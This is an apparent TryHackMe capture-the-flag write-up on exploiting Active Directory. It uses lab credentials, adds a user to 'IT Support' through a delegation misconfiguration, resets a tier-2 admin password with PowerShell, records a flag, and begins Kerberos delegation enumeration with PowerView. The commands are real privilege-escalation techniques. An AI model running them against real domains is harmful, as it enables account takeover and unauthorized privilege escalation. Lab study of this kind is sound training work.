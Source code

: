 ![Exploiting AD](https://assets.tryhackme.com/room-banners/attacking-ad.png)
## Exploiting Active Directory

### Exploiting Permission Delegation 

``` Your credentials have been generated: Username: laura.wood Password: C6j4BhcW ```


Bloodhound shows misconfiguration in AD allowing Domain Users to add themselves to IT Support, which in turn delegates permission to reset a t2 admin password

![bloodhound](/TryHackMe/Exploiting%20AD%20Task%202.png)

```posh
#Add our user to IT Support
Add-ADGroupMember "IT Support" -Members "laura.wood"
```

```posh
#Verify user has been successfully added
Get-ADGroupMember -Identity "IT Support" 
```

Run ``` gpupdate /force ```  then reconnect to the remote session to ensure permissions propogate

```posh
#Reset password for a user in 
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_caroline.dawson" -Reset -NewPassword $Password
```

RDP from AttackBox to locate the flag

``` THM{Permission.Delegation.FTW!} ```

### Exploiting Kerberos Delegation

```console
PS C:\Users\laura.wood> Import-Module C:\Tools\PowerView.ps1 
PS C:\Users\laura.wood> Get-NetUser -TrustedToAuth | select name, msds-allowedtodelegateto 

name       msds-allowedtodelegateto
----       ------------------------
IIS Server {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
```
